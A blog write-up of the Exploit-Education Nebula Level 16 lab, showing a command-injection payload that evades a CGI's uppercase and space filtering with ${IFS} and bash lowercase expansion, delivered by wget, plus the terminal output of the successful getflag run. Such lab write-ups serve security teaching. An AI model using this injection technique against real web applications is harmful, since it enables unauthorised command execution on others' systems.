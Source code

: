 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 16"
date:   2019-08-23 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
--- 
```

### [Exploit Education Level 16](https://exploit.education/nebula/level-16/)

## Challenge
```apache
level16@nebula:/home/flag16$ cat thttpd.conf | grep -v "#"
port=1616
dir=/home/flag16
nochroot
user=flag16
cgipat=**.cgi
```

level16@nebula:~$ netstat -peanut
(No info could be read for "-p": geteuid()=1017 but you should be root.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode       PID/Program name
tcp        0      0 127.0.0.1:50001         0.0.0.0:*               LISTEN      987        10807       -        
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      0          12702       -        
tcp        0      0 0.0.0.0:10007           0.0.0.0:*               LISTEN      982        10802       -        
tcp        0      0 192.168.5.134:22        192.168.5.1:50665       ESTABLISHED 0          12746       -        
tcp        0      0 192.168.5.134:22        192.168.5.1:50293       ESTABLISHED 0          12084       -        
tcp6       0      0 :::1616                 :::*                    LISTEN      0          10796       -        
tcp6       0      0 :::22                   :::*                    LISTEN      0          12704       -        
tcp6       0      0 :::7007                 :::*                    LISTEN      0          10747       -        
udp        0      0 0.0.0.0:68              0.0.0.0:*                           0          12579       -        
level16@nebula:~$


No lowercase
No space
{IFS}

"${IFS}1;Y="/TMP/RUN.SH";Y="${Y,,}";$Y${IFS}"
 
 
```bash
echo "echo pwned>/tmp/out;">/tmp/run.sh
echo "getflag>>/tmp/out;">>/tmp/run.sh
cat /tmp/run.sh
chmod 777 /tmp/run.sh
wget 'http://192.168.5.134:1616/index.cgi?username="${IFS}1%3bY="/TMP/RUN.SH"%3bY="${Y,,}"%3b$Y${IFS}"' -O out
```

```bash
level16@nebula:~$ echo "echo pwned>/tmp/out;">/tmp/run.sh
level16@nebula:~$ echo "getflag>>/tmp/out;">>/tmp/run.sh
level16@nebula:~$ cat /tmp/run.sh
echo pwned>/tmp/out;
getflag>>/tmp/out;
level16@nebula:~$ chmod 777 /tmp/run.sh
```
```bash
level16@nebula:~$ wget 'http://192.168.5.134:1616/index.cgi?username="${IFS}1%3bY="/TMP/RUN.SH"%3bY="${Y,,}"%3b$Y${IFS}"' -O out
--2019-08-23 11:26:51--  http://192.168.5.134:1616/index.cgi?username=%22$%7BIFS%7D1%3bY=%22/TMP/RUN.SH%22%3bY=%22$%7BY,,%7D%22%3b$Y$%7BIFS%7D%22
Connecting to 192.168.5.134:1616... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: `out'

    [ <=>                                   ] 123         --.-K/s   in 0.006s

2019-08-23 11:26:51 (19.6 KB/s) - `out' saved [123]

level16@nebula:~$
level16@nebula:~$ cat /tmp/out
pwned
You have successfully executed getflag on a target account
```